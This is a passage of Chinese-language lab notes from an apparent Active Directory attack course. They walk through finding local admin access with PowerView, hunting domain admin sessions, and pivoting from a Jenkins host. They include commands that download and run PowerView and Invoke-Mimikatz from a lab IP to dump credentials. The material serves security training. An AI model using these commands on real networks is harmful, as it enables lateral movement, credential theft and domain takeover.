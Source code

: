 Members

-------------------------------------------------------------------------------
Administrator
dcorp\ciadmin
dcorp\Domain Admins
The command completed successfully.
```

# Learning Objective 6:
Task
● Setup BloodHound and identify a machine where studentx has local administrative access.

可以横向到dcorp-adminsrv
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Find-LocalAdminAccess
dcorp-adminsrv.dollarcorp.moneycorp.local
mcorp-std366.dollarcorp.moneycorp.local
```


# Learning Objective 7:
Task
● Domain user on one of the machines has access to a server where a domain admin is logged in.
Identify:
− The domain user
− The server where the domain admin is logged in.
● Escalate privileges to Domain Admin
− Using the method above.
−  Using derivative local admin 

## The domain user。The server where the domain admin is logged in.

从BloodHound可以知道svcadmin登录过dcorp-mgmt

或者在前面的dcorp-ci使用userhunter
```
PS C:\Program Files (x86)\Jenkins\workspace\project1> iex (iwr http://172.16.100.66/PowerView.ps1 -UseBasicParsing)
PS C:\Program Files (x86)\Jenkins\workspace\project1> invoke-userhunter

UserDomain      : dcorp
UserName        : svcadmin
ComputerName    : dcorp-mgmt.dollarcorp.moneycorp.local
IPAddress       : 172.16.4.44
SessionFrom     :
SessionFromName :
LocalAdmin      :
```

## Using derivative local admin

查看ciadmin可以横向的电脑
```
PS C:\Program Files (x86)\Jenkins\workspace\project1> Find-LocalAdminAccess
dcorp-ci.dollarcorp.moneycorp.local
dcorp-mgmt.dollarcorp.moneycorp.local
```

导出ciadmin的哈希
```
PS C:\Program Files (x86)\Jenkins\workspace\project1> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
PS C:\Program Files (x86)\Jenkins\workspace\project1> Invoke-Mimikatz

